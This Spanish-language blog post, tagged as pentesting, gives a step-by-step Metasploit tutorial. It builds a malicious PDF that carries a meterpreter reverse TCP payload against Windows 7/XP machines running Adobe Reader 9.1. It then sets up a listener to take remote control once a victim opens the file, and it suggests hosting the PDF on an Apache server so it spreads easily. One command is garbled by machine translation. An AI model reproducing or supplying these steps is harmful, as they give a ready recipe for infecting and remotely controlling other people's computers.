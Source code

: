 ```yaml
---
title: Envenenando PDF con magia msf vulnerando Windows 7 o xp
date: 2018-12-30
categories: [Pentesting, Herramientas]
excerpt: Practicando con metasploit
tags: [Windows]
---  
```


### Requisitos:
---
- Una terminal capaz de ejecutar metasploit
- win 7 o xp teniendo instalado Adobe Reader 9.1

Algunos usuarios me estaban diciendo de como se podria hacer esto, y pues, es muy facil y es posible del mismo metasploit utilizando una vulnerabilidad llamada: Adobe PDF Escape EXE Ingeniería Social (Sin JavaScript) y este modulo lo utilizaremos para incorporar una carga de metasploit en un archivo pdf existente. Ya que sabes lo que necesitamos y que vulnerabilidad explotaremos ¿Comenzamos?  

Abrimos nuestra terminal y ejecutamos metasploit, y ponemos lo siguientes comandos

 ![termux1](/assets/img/post/11/termux1.gif) 
 
Lo primero es poner el mudulo que usaremos:  

```bash
use exploit /windows/fileformat/adobe_pdf_embedded_exe_nojs
```

Usamos el siguiente payload que devolvera un meterpreter  

```bash
Establecer ventanas de carga útil/meterpreter/reverse_tcp 
```

Le damos un nombre a nuestro pdf infectado:  

```bash
set FILENAME standby.pdf  
```

Ponemos nuestra IP  

```bash
set lhost IP
```

Después el puerto a usar  

```bash
set lport 4040  
```

Por ultimo ponemos exploit

```bash
exploit
```

 ![termux](/assets/img/post/11/termux1.jpg) 
 
 El PDF queda en esta carpeta la podemos ver poniendo find .msf4 después les saldrá y moveremos esa carpeta a descargas de la carpeta interna de nuestro dispositivo (En el caso si estamos en android de lo contrario no es necesario)
 
![termux2](/assets/img/post/11/termux2.jpg) 
![termux3](/assets/img/post/11/termux3.jpg) 
 
Ahora que tenemos nuestro pdf con el payload dentro y para ser ejecutado toca enviarselo a la victima para que lo abra, y al momento de que lo abra le saldrá un mensaje como este:
 
![termux4](/assets/img/post/11/termux4.jpg) 
![termux5](/assets/img/post/11/termux5.jpg) 

Nosotros tendremos que ir a nuestra terminal y tecleamos los siguientes comandos:

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lport 4040
set lhost IP
exploit
```

Y cuando lo abra boom, jajaj. Nosotros tendremos control remoto de su sistema cuando lo abra.

Les recomiendo hacer un servidor Apache para poner nuestro PDF y que sea más legible o fácilmente de descargar n.n

![termux6](/assets/img/post/11/termux6.jpg) 